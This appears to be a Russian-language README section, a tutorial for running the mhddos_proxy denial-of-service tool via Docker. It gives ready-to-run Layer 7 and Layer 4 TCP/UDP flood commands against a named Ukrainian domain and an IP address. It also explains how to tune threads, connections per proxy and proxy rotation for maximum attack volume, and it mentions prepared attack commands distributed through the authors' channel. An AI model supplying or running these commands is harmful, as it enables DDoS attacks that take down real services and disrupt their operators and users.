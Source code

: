 ## Docker

Если у Вас установлен docker, Вы можете запускать атаку через mhddos_proxy используя docker. Синтаксис практически ничем не отличается, разве что перед каждой "дэфолтной" командой требуется добавить docker run -it --rm portholeascend/mhddos_p, выглядеть эту будет примерно следующим образом:

__Layer 7:__

* __docker run -it --rm portholeascend/mhddos_p__ https://hyser.ua/ --http-methods dgb -t 1000 --rpc 100 -p 300 --debug

__Layer 4(TCP):__

* __docker run -it --rm portholeascend/mhddos_p__ tcp://172.67.4.191:80 -t 1000 -p 300 --rpc 50 --http-methods TCP --debug

__Layer 4(UDP):__

 * __docker run -it --rm portholeascend/mhddos_p__ udp://172.67.4.191:80 -t 1000 -p 300 --rpc 50 --http-methods UDP --debug

__Как установить Docker на Вашу ОС:__

  * Windows: https://docs.docker.com/desktop/windows/install/
  * Mac: https://docs.docker.com/desktop/mac/install/
  * Ubuntu: https://docs.docker.com/engine/install/ubuntu/
  * Kali Linux: https://www.kali.org/docs/containers/installing-docker-on-kali/

Загрузить последний образ mhddos_proxy можно следующей командой:

  * docker pull BionecX/mhddos_p:latest

## Оптимизация ввода значений

Пример команды:

* python3 runner.py <__Цель__> --http-methods <__Метод__> -t <__Угрозы__> --rpc <__Подключения__> -p <__Обновление__> --debug

Что можно дополнительно сделать:

* __Цель__ - Цели при проведении атаки на одном уровне и с использованием одного метода атаки, указанного в --http-methods можно перечислять через пробел. В данном случае кол-во угроз будут разделены на каждую цель равномерно от того кол-ва, которое вы указали.
* __Метод__ - Со всеми методами можно ознакомиться в нашем предыдущем туториале , либо на самом гитхабе (раздел Features And Methods). Все команды, которые мы подготавливаем в нашем канале - мы подготавливаем уже с требуемыми для атаки методами). На одном уровне атаки методы также можно перечислять через пробел.
* __Угрозы__ - это количество "зловредных" пакетов/запросов отправляемых на цель. Здесь можно выкручивать по максимуму на столько, на сколько тянет ваш ПК (мониторьте нагрузку в диспетчере задач, смотрим на ЦПУ и ОЗУ, в Kali Linux это зеленый и синий график соответственно). Будьте внимательны, в начале атаки нагрузка может быть минимальной, а через некоторое время зашкаливать. Учитывайте, что с увеличением пакетов/угроз, кол-во прокси серверов может снизится. По умолчанию 1000, по желанию - сколько влезет в вашу машину.
* __Подключения__ - Здесь указываем предполагаемое количество подключений к одному прокси-серверу. Оптимально указывать от 50 до 100. Предположим что у Вас 1000 прокси-серверов, при указании подключений в кол-ве 50, Вы отправите 50 000 пакетов на вашу цель (в идеале, но определенный процент пакетов скорее всего может потеряться). Не рекомендуем выкручивать значения, это нагрузит прокси-сервера, помните что ими пользуетесь не только вы и они не резиновые). 
* __Период атаки__ - Значение указывается в секундах, по умолчанию это 300 секунд и это означает, что каждые 300 секунд вы будете обновлять список прокси-серверов и переподключаться к ним (некоторые прокси могли забанить или соединение с ними может быть потеряно). Скрипт перезапускается автоматически, рекомендует указывать здесь не более 10-ти минут, так как чем чаще будут обновляться прокси, в разумных пределах, тем лучше.
